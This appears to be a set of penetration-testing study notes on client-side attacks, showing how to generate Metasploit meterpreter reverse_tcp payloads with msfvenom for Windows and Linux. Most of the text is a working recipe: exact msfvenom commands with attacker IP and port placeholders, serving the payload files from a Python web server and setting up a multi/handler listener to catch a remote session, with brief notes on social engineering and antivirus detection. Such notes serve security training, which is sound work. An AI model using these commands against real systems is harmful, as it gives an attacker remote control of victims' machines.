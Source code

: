 # Payloads

# Generating Payloads with Msfvenom

## Client Side Attacks

- A client-side attack is an attack vector that involves coercing a client to ececute a malicious payload on their system that consequently connects back to the attacker when executed.
- Client-side attacks typically utilize various social engineering techniques like generating malicious documents or portable executables (PEs).
- Client-side attacks take advantage of human vulnerabilities as opposed to vulnerabilities in services or software running on the target system.
- Given that this attack vector involves the transfer and storage of a malicious payload on the client's system (disk), attackers need to be cognisant of AV detection.

## Msfvenom

- Msfvenom is a command-line utility that can be used to generate and encode MSF payloads for various operating systems as well a web servers.
- Msfvenom is a combination of two utilities, namely: msfpayload and msfencode.
- We can use Msfvenom to generate a malicious meterpreter payload that can be transferred to a client target system. Once executed, it will connect back to our payload handler and provide us with remote access to the target system.

## Demo: Generating Payloads with Msfvenom

`msfvenom`

We list out the available payloads we can generate:

`msfvenom --list payloads`

- We focus on the meterpreter payload. When we specify a payload, we'll first specify the OS, OS architecure, payload type, protocol (connecting back to the OS)
- Payloads:
  - Staged payload: Is delivered in two parts: an initial loader that connects back to the attacker and downloads the main payload, allowing for smaller payloads and flexibility.
  - Non-staged payload: Delivers the entire payload at once, making it simpler and faster but potentially larger in size
 
### Generating Windows payloads:

`msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=[ownIP] LPORT=[port the payload should connect back to] -f exe > /home/kali/Desktop/Windows_Payloads/payloadx86.exe`

We check if the payload generated successfully:

`cd Desktop/Windows_Payloads/`

`ls`

Generating a x64 payload:

`msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=[ownIP] LPORT=[port the payload should connect back to] -f exe > /home/kali/Desktop/Windows_Payloads/payloadx64.exe`

`cd Desktop/Windows_Payloads/`

`ls`

We also need to setup a handler. A handler is needed to listen for and manage incoming connections from the payload on the target machine, enabling control over the compromised system:

`use exploit/multi/handler`


Listing out the output formats available:

`msfvenom -list formats`

Framework Executable Formats are aspx, dll, elf, exe, jar etc.
Framework Transform Formats allow us to output the payloads into a python, ruby file etc.

### Generating Linux payloads:

`cd ..`

`ls`

We will be storing the Linux payloads under /home/kali/Desktop/

We generate a payload:

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[ownIP] LPORT=[backConnect Port] -f elf > /Desktop/Linux_Payloads/payloadx86`

`cd Linux_Payloads/`

We execute this:

`chmod +x payloadx86`

`./payloadx86`

### Transfer Windows payload onto target system

`cd Windows_Payloads/`

Set-up a simple webserver to host the payload files:

`sudo python -m SimpleHTTPServer 80`

New tab:

msfconsole

msf6:`use multi/handler`

msf6:`set payload windows/meterpreter/reverse_tcp`

msf6:`set lhost [ownIP]`

msf6:`set lport [port we configured when generating the paylaod]`

msf6:`run`

We obtained a meterpreter session







